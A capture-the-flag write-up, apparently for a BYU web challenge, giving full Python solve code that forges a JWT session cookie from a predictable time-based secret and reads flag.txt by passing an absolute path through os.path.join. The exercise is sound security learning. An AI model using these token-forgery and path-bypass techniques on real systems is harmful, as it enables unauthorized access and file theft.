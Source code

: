 
#### Overview

Overall this was a pretty fun challenge, I enjoyed it a lot. It came off as easy at first, but tricked me in a few places. This challenge can be broken down into two major stages: figure out how to get the same secret key to sign a session cookie and how to get the file `flag.txt` from the `filename` url parameter.

#### Approach

When I first opened up the web page, I got a 403 error. So I inspected the source code provided and found that the server is checking for a key value pair`{userid: 0}` in the session cookie.

![web1_1](/images/byu1_1.png)

![web1_2](/images/byu1_2.png)


#### Stage 1

In order to sign the session cookie, I needed to create the same secret key as the server used to authenticate. Looking through the source code, I found that it returned `time.time()-time.started()` in the response when I sent a request with an incorrect session cookie. So I extracted the seconds in the response and calculated `time_started`, which was the key to crafting the secret key. Here is my code for signing the session cookie:

```
import hashlib, time, jwt, requests

r = requests.get('https://random.chal.cyberjousting.com/', cookies={'session':"test"})
res = r.text
seconds = int(res[72:75])
time_started = round(time.time() - seconds)
APP_SECRET = hashlib.sha256(str(time_started).encode()).hexdigest()
payload = jwt.encode(payload={'userid': 0}, key=APP_SECRET, algorithm='HS256')
cookie = {'session': payload}
```


#### Stage 2

The next stage of the challenge involved reading the file `flag.txt` from the `filename` url parameter. I first looked through the Dockerfile and found the directory `flag.txt` was in. The tricky part here was figuring out how to get from `files/` to the correct directory without using `../` for path traversal. It turned out that `os.path.join()` will overwrite the previous path if it sees another absolute path. So to get the final flag, I sent the request to the route `/api/file` with the absolute path to the file as the parameter.

```
r = requests.get('https://random.chal.cyberjousting.com/api/file?filename=/in_prod_this_is_random/flag.txt', cookies=cookie)
print(r.text)
```


#### Solution

Putting everything together, here is my final solve for the challenge:

```
import hashlib, time, jwt, requests

r = requests.get('https://random.chal.cyberjousting.com/', cookies={'session':"test"})
res = r.text
seconds = int(res[72:75])
time_started = round(time.time() - seconds)
APP_SECRET = hashlib.sha256(str(time_started).encode()).hexdigest()
payload = jwt.encode(payload={'userid': 0}, key=APP_SECRET, algorithm='HS256')
cookie = {'session': payload}

r = requests.get('https://random.chal.cyberjousting.com/api/file?filename=/in_prod_this_is_random/flag.txt', cookies=cookie)
print(r.text)
```